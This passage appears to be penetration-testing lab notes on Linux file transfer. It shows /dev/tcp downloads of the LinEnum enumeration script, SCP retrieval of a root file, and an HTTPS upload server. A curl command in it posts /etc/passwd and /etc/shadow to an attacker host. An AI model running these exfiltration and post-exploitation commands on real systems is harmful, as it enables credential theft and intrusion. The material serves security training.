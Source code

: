 ```shell
```
## Download with Bash (/dev/tcp)
#### Connect to the Target Webserver
```shell
exec 3<>/dev/tcp/10.10.10.32/80
```
#### HTTP GET Request
```shell
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
#### Print the Response
```shell
cat <&3
```
## SSH Downloads
#### Enabling the SSH Server
```shell
sudo systemctl enable ssh
```
#### Starting the SSH Server
```shell
sudo systemctl start ssh
```
#### Checking for SSH Listening Port
```shell
netstat -lnpt
```
#### Linux - Downloading Files Using SCP
```shell
scp plaintext@192.168.49.128:/root/myroot.txt . 
```
## Upload Operations
## Web Upload
#### Pwnbox - Start Web Server
```shell
sudo python3 -m pip install --user uploadserver
```
#### Pwnbox - Create a Self-Signed Certificate
```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
#### Pwnbox - Start Web Server
```shell
mkdir https && cd https
```
```shell
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### Linux - Upload Multiple Files
```shell
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
## Alternative Web File Transfer Method
#### Linux - Creating a Web Server with Python3
```shell
python3 -m http.server
```